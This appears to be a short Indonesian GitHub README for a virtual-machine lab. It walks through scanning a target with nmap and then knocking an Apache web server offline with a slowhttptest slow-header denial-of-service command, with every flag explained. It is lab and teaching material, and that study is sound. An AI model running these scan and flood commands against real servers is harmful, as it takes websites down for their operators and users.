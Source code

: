 <h2 align="center">Attack dengan slowhttp </h2>
بِسْمِ اللَّهِ الرَّحْمَنِ الرَّحِيْم

## Bahan
- VM OS Debian 

## Tujuan
  Membuat Web Server menjadi DOWN / tidak dapat diakses

## Penggunaan 
- Konfigurasi Adapter Network pada VM anda dengan dua adapter yaitu NAT dan Host Only
- Konfigurasi Network menjadi dhcp pada adapter NAT/enp0s3 dan Static pada adapter Host Only/enp0s8,
  Contoh :
    ![image/image1.png](https://github.com/yogaputrarm/cacti-kons1/blob/main/image/image1.png)
- lakukan update repository terlebih dahulu
- lakukan instalasi slowhttptest dan NMAP, dengan perintah:
  ```
  apt install slowhttptest nmap
  ```
- Tunggu hingga proses instalasi selesai
- lakukan scanning untuk mendapatkan informasi teknologi apa saja yang digunakan pada server target, dengan perintah:
  ```
  nmap -sVC -O ip target
  ```
- setelah mendapatkan hasil scanning, pastikan terdapat port 80 yang berisi service Apache dalam keadaan terbuka
- kemudian lakukan penyerangan pada port 80, dengan perintah
  ```
  slowhttptest -c 50000 -H -r 200 -t GET -u http://ip target/ -x 24 -p 3 -l 9999
  ```
  Note :
    -c 50000 = total koneksi yang dikirimkan
    -H = memperlambat headers dari website
    -r 200 = melakukan koneksi 200/detik
    -t GET = metode GET saat request
    -u = url target //http:ip target/
    -x 24 = panjang data random yang dikirim sebanyak 24
    -p 3 = waktu saat timeout selama 3 detik
    -l 9999 = bata waktu penargetan
- Masuk pada mode monitoring penyerangan 
- Tunggu `service available` yang berawal dari "YES" menjadi "NO"
- kemudian lakukan monitoring traffik adapter nMasuetwork menggunakan wireshark 

